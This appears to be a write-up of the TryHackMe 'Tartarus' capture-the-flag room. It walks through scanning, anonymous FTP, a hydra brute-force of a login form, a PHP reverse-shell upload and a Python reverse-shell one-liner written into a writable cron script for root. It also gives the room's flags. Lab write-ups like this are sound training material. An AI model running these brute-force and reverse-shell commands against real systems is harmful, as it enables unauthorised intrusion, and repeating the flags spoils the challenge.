








# Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 
  
  There we see a txt file and downloading it on our machine we get /sUp3r-s3cr3t directory. We will have a look at this directory later first we will further enumerate the machine.
  
  
  
  

 
 Checking the robots.txt file(a random guess) 
  
  
 
Entering into /admin-dir

  
  
  Downloading the files using :
  
    wget http://10.10.13.146/admin-dir/credentials.txt
    wget http://10.10.13.146/admin-dir/userid
  
  Now entering into the super secret directory on the web server we see a login page.
  
  
  
 Since, we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

   

    After logging in we get into home.php where we can upload files. Uploading the script for reverse shell here. And starting the listener
    on the machine.

 
     
  Uploading the reverse shell php script on the page. 
  
    Download the script from here: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

We need to find the uploads directory to run our script for that we run the directory scan. 
So we find the images directory with dirb and here is the upload folder open it and run the script.
Now we got our reverse shell.

  Going to home/d4rckh.  
  We get the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your THM IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 
 
 And finally we have our root shell  
  
  

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
